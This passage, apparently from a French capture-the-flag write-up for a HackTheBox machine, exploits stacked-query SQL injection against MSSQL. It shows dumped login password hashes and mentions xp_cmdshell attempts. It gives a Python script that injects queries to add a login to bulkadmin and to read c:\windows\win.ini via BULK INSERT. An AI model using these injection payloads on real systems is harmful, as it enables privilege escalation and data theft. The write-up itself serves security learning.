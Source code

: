 ```plain
select name,master.sys.fn_sqlvarbasetostr(password_hash) from master.sys.sql_logins [4]:
[*] ##MS_PolicyEventProcessingLogin##, 0x0200bf9a95d75104265eb3ba0c429ffe6ca446d8d2445aaedd285e7d932b18e08329e946a00f22a0da6bba80239c0877c986f90db8f008267fe528dff1c9b97e3f1770cf4332
[*] ##MS_PolicyTsqlExecutionLogin##, 0x02001a73788fcdcd9b341e140c8e24c22de85913c9107bbe0d662b5fc2ff523cfefb0961d578993e841d53326df4afc1d91c405ba833b84dd86f6c872272e5a17a1afea59fde
[*] sa, 0x02006de6346acaf2178e53a4e1f4f1d4076f6bbb11719a045a01ad0c6ecfc78287162469199dcaf6e22e16221ec8369f7e70e7734a3922d0e77b24668bbeb93fc97de6e901eb
[*] web, 0x02009aed2fa5bd9aa14ca90e514ed5f8b3c0050b97826bad92f979fa28f2870d2c590beefe22b329571827b5c06c6a3f952ebdf38bd14a5957dc07c8ace40e76e52c84bd2a09
```

Malheureusement les tentatives de casser ces hashs ont échouées, nous laissant supposer qu'une fois de plus on était sur le mauvais chemin.  

Hadouken
--------

Il est alors temps de se pencher sérieusement sur les stacked-queries et le résultat est prometteur.  

Ainsi si on passe la requête *;SELECT @@version* on obtient la réponse espérée (pas d'erreur interne au serveur) alors qu'avec *;SELECT version()* (qui est spécifique MySQL) on obtient une erreur 500. *SQLmap* semble donc se tromper en ne voyant pas la possibilité de stack-er les requêtes...  

L'étape évidente suivante est de se servir de [xp\_cmdshell](https://docs.microsoft.com/fr-fr/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-2017) pour exécuter des commandes sur le serveur... mais ça ne marche pas :| Même en appelant préalablement *sp\_reconfigure* (voir [cette cheat sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet) pour les différentes astuces possibles).  

Ce CTF nous fait la vie dure ! Du coup on peut se reporter aux autres fonctionnalités de MSSQL comme [BULK INSERT](https://docs.microsoft.com/fr-fr/sql/t-sql/statements/bulk-insert-transact-sql?view=sql-server-2017) pour lire le contenu de fichiers et voir où cela nous mène.  

J'ai écrit le script *stacked.py* qui m'a servi de squelette pour placer les différentes commandes à exécuter tout au long du CTF. L'exemple suivant permet de charger le contenu du fichier *win.ini* dans la table *yoloout2* que l'on a préalablement créé après s'être octroyé les droits *BULK INSERT* :  

```python
from urllib.parse import quote
import requests
from time import sleep

data = {
    "username": "admin",
    "password": "test",
    "logintype": 1,
    "rememberme": "ON",
    "B1": "LogIn"
}

cmds = [
        "1;ALTER SERVER ROLE bulkadmin ADD MEMBER web;",
        "1;DROP TABLE yoloout2; CREATE TABLE yoloout2 (content nvarchar(4000)); BULK INSERT yoloout2 FROM 'c:\\windows\\win.ini';"
]

for cmd in cmds:
    data["logintype"] = cmd

    response = requests.post(
        "http://members.streetfighterclub.htb/old/verify.asp",
        headers={"Referer": "http://members.streetfighterclub.htb/old/login.asp"},
        data=data,
        allow_redirects=False
    )
```